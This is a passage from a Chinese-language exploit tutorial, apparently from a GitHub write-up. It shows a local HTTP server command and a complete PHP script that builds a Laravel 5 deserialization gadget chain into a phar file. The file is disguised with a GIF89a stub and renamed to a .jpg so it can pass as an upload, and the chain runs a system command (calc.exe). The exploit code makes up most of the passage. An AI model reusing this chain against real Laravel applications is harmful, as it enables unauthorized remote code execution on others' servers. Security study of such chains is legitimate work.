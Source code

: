在文件目录下使用`python -m http.server 19980`

3.  **生成 EXP phar 文件**

在 Public 文件夹下新建命名为 exp.php 文件，内容如下

```php
<?php
namespace Illuminate\Database;
class DatabaseManager{
    protected $extensions = array();
    protected $app=array();
    public function __construct(){
        $this->extensions['calc.exe']='call_user_func';
        $this->app['config']['database.connections']=['calc.exe'=>'system'];
        $this->app['config']['database.default'] = 'calc.exe';
    }
}

namespace Illuminate\View;
use Illuminate\Database\DatabaseManager;
class View{
    protected $factory;
    public function __construct(){
        $this->factory=new DatabaseManager;
    }
}

namespace Symfony\Component\Process\Pipes;
use Illuminate\View\View;
use Phar;

class WindowsPipes{
    private $files = array();
    public function __construct(){
        $this->files = array(new View());
    }
}
//echo urlencode(serialize(new WindowsPipes()));
$exp=new WindowsPipes();
//echo base64_encode(serialize($exp));
@unlink("laravel5_exp.phar");
$phar = new Phar("laravel5_exp.phar"); //后缀名必须为 phar
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置 stub
$phar->setMetadata($exp); //将自定义的 meta-data 存入 manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

运行后得到`laravel5_exp.phar`文件，重命名为`laravel5_exp.jpg`。
